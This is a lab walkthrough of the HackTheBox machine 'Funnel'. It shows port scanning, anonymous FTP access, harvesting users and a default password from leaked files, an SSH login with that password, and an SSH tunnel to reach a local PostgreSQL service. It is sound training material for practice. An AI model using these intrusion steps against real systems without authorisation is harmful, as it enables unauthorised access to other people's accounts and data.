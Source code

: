 ```yaml
---
title: Walkthrough - A HackTheBox machine - Funnel 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
  - postgresql
  - ftp
---
```


#  Walkthrough - A HackTheBox machine - Funnel 

Enumerate port/services:

```bash
nmap -sV -sC $ip -Pn -p-
```

Open ports: [21](21-ftp.md)  and [22](22-ssh.md).

We can log into ftp with anonymous user:

```
ftp $ip
# enter user when prompted: anonymous
# Press enter when prompted for password.
```

In the ftp service there is a directory, mail_backup. 

```ftp
cd mail_backup
mget *
```

Get users from file welcome_28112022

- optimus@funnel.htb 
- albert@funnel.htb 
- andreas@funnel.htb 
- christine@funnel.htb 
- maria@funnel.htb

Get default password from file password_policy.pdf: "funnel123#!#".

You can use [hydra](hydra.md) or try out manually to access. Finally user with default password is christine:

```
sshpass -p 'funnel123#!#' ssh christine@10.129.228.102
```

Now we can enumerate socket connections with the command "ss"

```bash
ss -tl
#-l: Display only listening sockets.
#-t: Display TCP sockets.
```

Results:

```
State  Recv-Q Send-Q Local Address:Port       Peer Address:PortProcess 
LISTEN 0      4096   127.0.0.53%lo:domain          0.0.0.0:*           
LISTEN 0      128          0.0.0.0:ssh             0.0.0.0:*           
LISTEN 0      4096       127.0.0.1:postgresql      0.0.0.0:*           
LISTEN 0      4096       127.0.0.1:33599           0.0.0.0:*           
LISTEN 0      32                 *:ftp                   *:*           
LISTEN 0      128             [::]:ssh                [::]:* 
```

[postgresql](5432-postgresql.md) is in use. Since our user is not in the sudoers file and can not install a postgres client, we can bypass this situation via port forwarding.


If the tool is not installed, then run in the atacker machine:

```bash
sudo apt install postgresql-client-common
```


**1.** In the attacking machine:

```bash
ssh UserNameInTheAttackedMachine@IPOfTheAttackedMachine -L 1234:localhost:5432 
# We will listen for incoming connections on our local port 1234. When a client connects to our local port, the SSH client will forward the connection to the remote server on port 22. This allows the local client to access services on the remote server as if they were running on the local machine.
# We are forwarding traffic from any given local port, for instance 1234, to the port on which PostgreSQL is listening, namely 5432, on the remote server. We therefore specify port 1234 to the left of localhost, and 5432 to the right, indicating the target port.
```

**2.** In another terminal in the attacking machine:

```bash
sudo apt update && sudo apt install postgresql postgresql-client-common 
# this will install postgresql in case you don't have it.

psql -U christine -h localhost -p 1234
# Using our installation of psql, we can now interact with the PostgreSQL service running locally on the target machine:
# -U: to specify user.
# -h: to specify localhost. 
# -p 1234 as we are targeting the tunnel we created earlier with SSH, we need to specify which is the port the tunnel is listening on.
```

Once logged in, use [postgresql cheat sheet](5432-postgresql.md) to get the flag.


